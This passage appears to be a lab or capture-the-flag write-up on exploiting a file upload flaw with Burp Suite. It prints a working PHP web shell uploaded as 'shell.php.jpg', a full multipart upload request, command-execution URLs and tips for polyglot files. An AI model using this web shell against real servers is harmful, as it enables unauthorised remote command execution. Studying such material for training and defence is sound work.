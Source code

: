 
## Example exploitation steps (reproducible)

1. Intercept the upload form with Burp Proxy and submit a file named `shell.php.jpg` that contains:

```
<?php if(isset($_GET['cmd'])){ system($_GET['cmd']); } ?>
```

2. Observe the server response — note the path/location returned by the server (e.g., `/uploads/avatars/shell.php.jpg`). Save the exact response in Burp for evidence.
3. Open the file URL in your browser: `https://<target>/uploads/avatars/shell.php.jpg?cmd=whoami`.
4. If the server executes PHP in the uploaded file, the command output will appear (e.g., `www-data` or similar). Save a screenshot and the request/response logs.
5. Retrieve the flag or success message (often the lab will present a success page when the shell runs a specific command or you can run `cat /etc/flag` or similar depending on the lab instructions).

---

## Burp workflow tips

* **Proxy** to capture the upload request and response (this gives you the exact storage path).
* **Repeater** to resend the request with different filenames and payloads quickly.
* **Intruder** is useful if you need to brute-force filename variations (case permutations, extension lists) but be cautious.
* Use **Decoder** to build polyglot files (e.g., combine hex JPEG header with PHP payload), then save locally and upload.

---

## Example requests (placeholder)

```
POST /upload HTTP/1.1
Host: target
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php.jpg"
Content-Type: image/jpeg

<?php if(isset($_GET['cmd'])){ system($_GET['cmd']); } ?>
------WebKitFormBoundary--
```

Response snippet:

```
{"status":"OK","path":"/uploads/avatars/shell.php.jpg"}
```

Visit: `https://target/uploads/avatars/shell.php.jpg?cmd=uname -a`

---
